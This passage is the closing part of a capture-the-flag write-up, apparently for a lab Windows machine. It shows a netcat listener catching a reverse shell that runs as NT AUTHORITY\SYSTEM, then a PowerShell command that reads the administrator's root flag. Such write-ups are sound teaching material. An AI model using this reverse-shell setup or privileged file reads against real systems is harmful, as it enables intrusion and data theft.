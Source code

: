 ![root-optimized.gif.gif](https://res.craft.do/user/full/f2720b1c-ea2b-4053-35cc-fe42cb8a5e5e/doc/55E4CDAA-A4A4-480B-9159-194BA319A3F2/7A79310C-7172-412B-B025-A97D464EF584_2/root-optimized.gif.gif)

```
⛩\> nc -lvnp 8001
listening on [any] 8001 ...
connect to [10.10.14.36] from (UNKNOWN) [10.129.145.79] 59763
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

Let’s read the root flag.

```
PS C:\> get-Content Users/administrator/desktop/root.txt
get-Content Users/administrator/desktop/root.txt
4a9dfbb33f825ce888427654fa927bb4
```
